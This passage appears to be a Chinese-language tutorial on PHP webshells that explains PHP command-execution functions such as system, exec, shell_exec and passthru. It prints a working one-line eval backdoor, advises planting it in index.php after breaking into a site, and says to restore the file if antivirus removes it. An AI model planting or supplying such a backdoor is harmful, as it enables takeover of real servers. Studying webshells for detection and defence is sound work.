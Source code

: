 webshell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将 其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服 务器WEB目录下正常的网页文件混在一起，然后就可以使用浏览器来访问asp或者php后 门，得到一个命令执行环境，以达到控制网站服务器的目的。

 顾名思义，"web"的含义是显然需要服务器开放web服务，"shell"的含义是取得对服务器某 种程度上操作权限。webshell常常被称为入侵者通过网站端口对网站服务器的某种程度上操 作的权限。由于webshell其大多是以动态脚本的形式出现，也有人称之为网站的后门工具。 首先新建一个index.php文件，把PHP代码输入到里面，电脑可能会自动识别它为病毒，并删除，可以恢复后使用。

入侵PHP网站后在主页中创建**index.php**

```php
<?php @eval($_POST['shell']);?>
```

之后就可以通过POST访问到该文件，该文件形成一种命令执行环境，将请求报文中的字符串当做代码字符串处理（Shell环境）

#### Webshell常用的PHP函数

Webshell几乎适用于所有Web编程语言。之所以关注PHP，是因为它是web上使用最广泛的编程语言。

**system()**

system()函数将命令作为参数，并输出结果。

下面的示例是在Windows操作系统上运行dir命令，然后返回PHP文件所在目录的目录列表。

![img](https://pic1.zhimg.com/v2-a3d68f85cacdfb3e84be4fcdea8e9214_b.jpg)

 类似地，在Linux机器上执行ls命令也会得到类似的结果。

![img](https://pic4.zhimg.com/v2-e630a4e40b569d7662fefb782633529f_b.jpg)

**exec()**

exec()功能是将命令作为参数，但不输出结果。如果指定了第二个可选参数，则返回结果为数组。否则，如果回显，只显示结果的最后一行。

![img](https://pic3.zhimg.com/v2-e6a0a3a2f09a9ee64a03994e5f0596ba_b.jpg)

用exec()函数执行echo命令，只会输出最后一行命令结果。

![img](https://pic2.zhimg.com/v2-1feae6da3e3cd96c42950b80a14eadb1_b.jpg)

如果指定了第二个参数，则返回结果为数组

![img](https://pic4.zhimg.com/v2-9a8a639a55d98449789952668840f27b_b.jpg)

**shell_exec()**

shell_exec()函数类似于exec()，但是，其整个输出结果为字符串。

![img](https://pic2.zhimg.com/v2-f99eb1ea4f52afabd4378222366cf265_b.jpeg)

![img](https://pic3.zhimg.com/v2-517fbb2f207fd64773e92fd48b02e33a_b.jpeg)

**passthru()**

passthru()执行一个命令并返回原始格式的输出。

![img](https://pic3.zhimg.com/v2-1a725fc9239f588b56ffc096ddfeb3ca_b.jpg)
